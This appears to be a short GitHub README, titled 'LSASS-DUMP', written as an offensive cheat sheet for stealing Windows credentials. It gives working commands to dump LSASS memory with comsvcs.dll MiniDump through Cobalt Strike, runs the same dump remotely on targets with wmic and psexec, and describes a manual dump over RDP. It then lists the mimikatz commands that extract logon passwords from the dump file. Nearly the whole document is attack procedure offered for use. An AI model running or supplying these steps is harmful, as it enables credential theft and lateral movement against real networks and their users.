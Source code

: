 # LSASS-DUMP


method via cobalt: (*** special thanks to @dtob1804 )
!* 1) getsystem

2) shell rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump PID C:\ProgramData\lsass.dmp full (the pid is from lsass)
(remove on remote car) coba_wmic:
shell wmic /node:[target] process call create "cmd /c rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump PID C:\ProgramData\lsass.dmp full"
remote-exec psexec [target] cmd /c rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump PID C:\ProgramData\lsass.dmp full
=======
method via RDP:
open taskmgr => PKM po lsass process => create Dump file.  \\ Next, download the file to your computer,

=======
how to dump it:
open mimic and then:
privilege::debug
sekurlsa::minidump A:\3.WORK\BL-ws20\lsass.DMP (replace the path to our file)
log
sekurlsa::logonpasswords

CREDITS: Learners Room @dtob1804
